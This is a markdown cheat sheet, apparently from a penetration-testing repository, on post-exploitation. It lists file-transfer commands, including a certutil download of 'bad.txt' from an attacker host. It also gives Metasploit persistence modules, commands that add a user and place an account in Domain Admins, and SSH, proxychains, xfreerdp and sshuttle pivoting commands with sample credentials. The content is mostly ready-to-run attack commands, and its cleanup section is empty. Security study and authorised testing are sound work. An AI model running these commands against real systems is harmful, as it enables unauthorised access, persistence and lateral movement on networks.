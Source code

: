 ## Post Exploitation - Review

### 🚩 File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
* metasploit

---

### 🚩 Maintaining access

#### Persistence Scripts (Metasploit)
* run persistence -h
* exploit/windows/local/persistence
* exploit/windows/local/registry_persistence

#### Scheduled Tasks
* run scheduleme
* run schtaskabuse

#### Add a user
* net user FakeUser Password1 /add
* net group "Domain Admins" hawkeye /ADD /DOMAIN 

---

### 🚩 Pivoting - Using a compromised device as a condui to reach new locations. For situations when a secondary device is only reachable through a compromised device, or for more covert activities (more in the realms of Red Teaming).

#### 🔴 Proxychains: Bind port, Proxychain, Proxy  
Scenario:
1. device 1 has access to device 2 which is unreachable from our attacker machine device 0  
2. proxychain and bind port is setup on device 0  
3. proxy tunnel on devive 1  
4. target is device 2

check our proxychain config file and edit the bind port if required  

         cat /etc/proxychains4.conf

now we ssh into device 1, -f backgrounds the ssh, -N do not execute remote commands only port forward, -D to bind on port, -i pivot the ssh private key file combined with the username.

         ssh -f -N -D 9050 -i pivot root@10.10.155.5

now we can run commands on device 2

         proxychains nmap -p88 10.10.10.255 (syn scan)
         proxychains nmap -p88 10.10.10.255 sT (tcp scan, could be better)

#### 🔴 Xfreerdp: RDP pivot into a device by placing proxychains infront of the normal syntax
   
      proxychains xfreerdp /u:administrator /p:'Password1' /v:10.10.10.225

#### 🔴 Sshuttle

      sshuttle -r user@ip.of.device1 ip.of.target/24 --ssh-cmd "ssh -i pivot"
      
keeping the sshuttle terminal live, move to new terminal. Aslong as the sshuttle terminal is up we can execute commands in the new terminal without having to type 'proxychains' infront of every command if using proxychain.

#### 🔴 Chisel
another tool used for pivoting and tunneling. 

---

### Cleaning up


